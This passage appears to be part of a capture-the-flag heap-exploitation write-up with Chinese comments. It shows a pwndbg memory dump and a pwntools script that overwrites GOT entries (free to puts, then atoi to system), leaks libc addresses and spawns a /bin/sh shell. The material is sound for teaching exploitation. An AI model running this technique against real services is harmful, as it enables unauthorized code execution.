 ```python
pwndbg> x/80x 0x602100
0x602100:   0x00000004  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x61616161  0x61616161
0x602140:   0x00602018  0x00000000  0x00602070  0x00000000
0x602150:   0x00602088  0x00000000  0x00000000  0x00000000
0x602160:   0x02386610  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000

'''
#修改free为puts的plt
payload=p64(elf.plt['puts'])
edit(0,payload)

#获取基址
'''
free(1),而1是0x00602018，是
pwndbg> x/10x 0x00602018
0x602018 <free@got.plt>:    0xfb548540  0x00007f61  0xfb5336a0  0x00007f61
0x602028 <fread@got.plt>:   0xfb5321b0  0x00007f61  0x00400786  0x00000000

0x00602018作为指针，被指向的是free@got.plt，然后修改为puts的plt
那么，我们puts，输出的就是puts的地址
这里有一点绕，理解一下
'''
free(1)

#gdb.attach(c)

puts_addr = c.recvuntil(b'\nOK\n',drop = True).ljust(8,b'\x00')
puts_addr = u64(puts_addr)
libcbase = puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']

log.success('puts_addr = ' + hex(puts_addr))
log.success('libcbase = ' + hex(libcbase))
log.success('system = ' + hex(system_addr))

#修改atoi为system
payload=p64(system_addr)
edit(2,payload)

c.sendline(b"/bin/sh")
c.interactive()
```



# Fastbin
